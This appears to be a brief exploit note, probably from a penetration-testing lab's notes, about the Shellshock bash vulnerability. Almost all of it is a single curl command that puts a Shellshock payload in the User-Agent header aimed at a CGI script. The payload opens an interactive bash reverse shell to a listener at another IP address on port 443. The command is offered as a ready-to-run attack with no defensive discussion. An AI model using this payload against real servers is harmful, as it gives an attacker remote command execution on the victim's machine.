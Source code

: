 # Shellshock

This only works on Linux environment

```bash
curl --user-agent "() { ignored;}; /bin/bash -i >& /dev/tcp/10.11.0.98/443 0>&1" \
    http://10.11.1.71/cgi-bin/admin.cgi
```



